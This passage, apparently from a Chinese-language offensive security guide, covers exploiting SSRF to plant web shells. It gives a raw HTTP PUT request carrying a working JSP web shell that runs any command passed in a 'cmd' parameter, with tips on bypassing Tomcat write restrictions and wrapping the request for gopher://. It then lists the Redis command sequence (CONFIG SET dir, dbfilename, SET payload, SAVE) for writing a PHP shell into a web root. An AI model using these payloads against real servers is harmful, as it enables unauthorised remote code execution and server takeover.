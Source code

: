 ```http
PUT /1.jsp/ HTTP/1.1
Host: <内部Tomcat IP>:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: <JSP代码长度>

<%-- JSP Web Shell 代码 --%>
<%
    String command = request.getParameter("cmd");
    if(command != null)
    {
        java.io.InputStream in = Runtime.getRuntime().exec(command).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a = in.read(b)) != -1)
        {
            // 以字符串形式打印，如果出现问题，请确保字符编码正确
            out.println(new String(b, 0, a));
        }
        out.print("</pre>");
    } else {
        out.print("format: xxx.jsp?cmd=Command");
    }
%>
```

* **关于 `PUT /1.jsp/` 的说明：** 路径中的尾部斜杠 (`/1.jsp/`) 是一个技巧，有时可以绕过限制或与某些 Tomcat 配置一起使用以允许写入 `1.jsp`。
* **Gopher 包装：** 此原始 HTTP PUT 请求需要为 `gopher://` 包装器进行格式化 (前置 `_`，对特殊字符进行 URL 编码，并正确计算 `Content-Length`)。

---

### 13. SSRF 到 Redis：未授权写入 Web Shell (通过 RDB 备份) 💾

**核心原理：**

如果内部 Redis 实例无需身份验证即可访问，您可以使用 SSRF (通过 `gopher://`) 发送 Redis 命令。通过将 Redis 的 RDB 备份目录 (`dir`) 设置为 Web 可访问路径，将 RDB 文件名 (`dbfilename`) 设置为 shell 扩展名 (例如 `shell.php`)，然后将 PHP 代码作为 Redis 键的值插入，最后触发 `SAVE` 或 `BGSAVE`，您可以写入一个 Web Shell。

**Redis 命令 (按顺序发送或在单个载荷中发送)：**

1.  `CONFIG SET dir /var/www/html/` (将备份目录设置为 Web 根目录)
2.  `CONFIG SET dbfilename shell.php` (设置备份文件名)
3.  `SET payload "<?php phpinfo(); ?>"` (将 PHP shell 代码存储在名为 `payload` 的键中)
    * 或者，为避免原始字符串周围的 RDB 格式前缀/后缀问题，您可以填充它：`SET payload "\n\n\n<?php phpinfo(); ?>\n\n\n"`
4.  `SAVE` (或 `BGSAVE`) (将当前数据库保存到磁盘，在 `/var/www/html/` 中创建 `shell.php`)
5.  `QUIT` (可选，用于干净地关闭连接)
